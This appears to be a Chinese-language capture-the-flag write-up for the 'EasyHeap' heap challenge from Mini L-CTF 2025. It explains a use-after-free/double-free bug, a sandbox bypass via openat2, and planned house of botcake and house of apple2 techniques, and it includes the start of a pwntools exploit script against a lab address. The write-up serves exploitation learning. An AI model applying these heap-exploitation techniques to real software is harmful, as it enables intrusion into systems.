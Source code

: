 # Mini L-CTF 2025

RK.5

RP.7197

## PWN

### EasyHeap | FINISHED

如果我没有玩到下午一点才看题,一血就是我的了 :(

![](https://seandictionary.top/wp-content/uploads/2025/05/image-1024x599.png)

菜单堆题,开启了沙箱,过滤了 open 和 openat

![](https://seandictionary.top/wp-content/uploads/2025/05/f4ddec9b-9871-447e-9343-e4bc4a99618b.png)

即使 getshell 了,cat flag 这个 shell 命令也是基于 open 的,所以直接 getshell 是没用的

open(at)可以用 openat2 代替,本题可以从 main 返回,也就是会调用 exit,那就打 house of apple2

![](https://seandictionary.top/wp-content/uploads/2025/05/88a0a95f-4fc5-4aa0-8707-e860e3672b06.png)

本题的漏洞在 free,看着好像指针被清空了,但是被置零的是 ptr,list 上仍然保留着指针,可以再次 free,也就是 uaf,只是 SIZE_list 被置零了,于是我们虽然无法直接编辑,显示已释放堆块,但可以二次释放

那就用 house of bocate 制造出一个堆块重叠,但重叠状态出现后,"可以反复使用,不会消失"

我们可以轻松拿到 heap 地址和 libc 地址

```
from pwn import *
#io=process('./pwn')
io=remote("172.26.144.1",61703)
libc=ELF('./libc.so.6')
context.arch='amd64'
context.log_level='debug'
def bug():
    gdb.attach(io)
def ch(Id):
    io.sendlineafter(b"Choice: ",str(Id).encode())
def add(Id,size,payload=b'\x00'):
    ch(1)
    io.sendlineafter(b"Index: ",str(Id).encode())
    io.sendlineafter(b"Size: ",str(size).encode())
    io.sendlineafter(b"Input data: ",payload)
def edit(Id,payload):
    ch(2)
    io.sendlineafter(b"Index: ",str(Id).encode())
    io.sendlineafter(b"Input new data: ",payload)
def free(Id):
    ch(4)
    io.sendlineafter(b"Index: ",str(Id).encode())
def show(Id):
    ch(3)
    io.sendlineafter(b"Index: ",str(Id).encode())
for i in range(12):
    add(i,0x300)
for i in range(7):
    free(i)
free(8)
free(9)
add(0,0x300)
free(9)
```